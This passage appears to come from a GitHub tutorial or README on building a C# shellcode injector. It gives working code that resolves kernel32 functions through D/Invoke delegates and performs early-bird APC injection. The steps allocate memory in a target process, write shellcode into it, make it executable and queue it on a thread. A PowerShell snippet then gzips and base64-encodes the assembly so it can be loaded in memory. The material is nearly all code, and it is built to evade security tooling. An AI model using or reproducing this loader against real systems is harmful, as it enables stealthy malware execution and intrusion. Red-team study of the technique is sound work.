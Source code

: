 Invoke VirtualAllocEx through its delegate:
```C#
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
DELEGATES.VirtualAllocEx virAllEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualAllocEx)) as DELEGATES.VirtualAllocEx;
IntPtr allocret = virAllEx(procInfo.hProcess, IntPtr.Zero, (uint)sheocode.Length, 0x1000 | 0x2000, 0x04); //MEM_COMMIT | MEM_RESERVE; 0x04: RW
```

Invoke WriteProcessMemory through its delegate:
```C#
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "WriteProcessMemory");
DELEGATES.WriteProcessMemory writeProcMem = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.WriteProcessMemory)) as DELEGATES.WriteProcessMemory;
writeProcMem(procInfo.hProcess, allocret, sheocode, (uint)sheocode.Length, out UIntPtr bytesWritten);
```

Invoke VirtualProtectEx through its delegate:
```C#
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualProtectEx");
DELEGATES.VirtualProtectEx virProtEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualProtectEx)) as DELEGATES.VirtualProtectEx;
virProtEx(procInfo.hProcess, allocret, sheocode.Length, 0x20, out oldProtect); // 0x20: RX
```

Invoke QueueUserAPC through its delegate:
```C#
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "QueueUserAPC");
DELEGATES.QueueUserAPC qUsrAPC = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.QueueUserAPC)) as DELEGATES.QueueUserAPC;
qUsrAPC(allocret, procInfo.hThread, IntPtr.Zero);
```

Invoke ResumeThread through its delegate:
```C#
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "ResumeThread");
DELEGATES.ResumeThread resThrd = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.ResumeThread)) as DELEGATES.ResumeThread;
resThrd(procInfo.hThread);
```

Build our .NET assembly as a x64 executable.
For the sake of the demo, we can cheat a bit. In order to load our assembly in the target's memory, let's gzip compress and then base64 encode the assembly's byte stream, output it to `compressedEncodedBytes.txt`.
```Powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\injection.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\compressedEncodedBytes.txt'
```
